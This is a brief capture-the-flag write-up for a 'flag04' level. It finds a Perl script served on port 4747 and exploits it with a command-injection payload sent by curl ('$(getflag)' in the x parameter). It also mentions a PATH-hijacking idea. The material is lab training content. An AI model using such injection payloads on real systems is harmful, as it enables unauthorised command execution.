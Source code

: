 ## Project README: Finding flag04

Our routine: 
```bash
ls -la
find / -user flag04 -print 2>/dev/null
```

There is a file called **level04**
We print it with:
```bash 
cat level04
```
And realized, the file was a **perl script** running on port **4747**.

So the idea is to make this file run getflag cause in doing so we are not running getflag as user **level04** but as **flag04** since level04 file was created by **flag04**.

To do so, we add to **$PATH** in our env a path to **/tmp/** and create a file named **echo** whitch will run getflag when executed.

After decompile it, we realized there were a breach on **print echo $y 2>&1;** line.

We send many request with **curl** like :
```bash
curl http://localhost:4747/?x='getflag'
```

and finally, after many tries, we find the right syntaxe:
```bash
curl http://localhost:4747?x='$(getflag)'
```

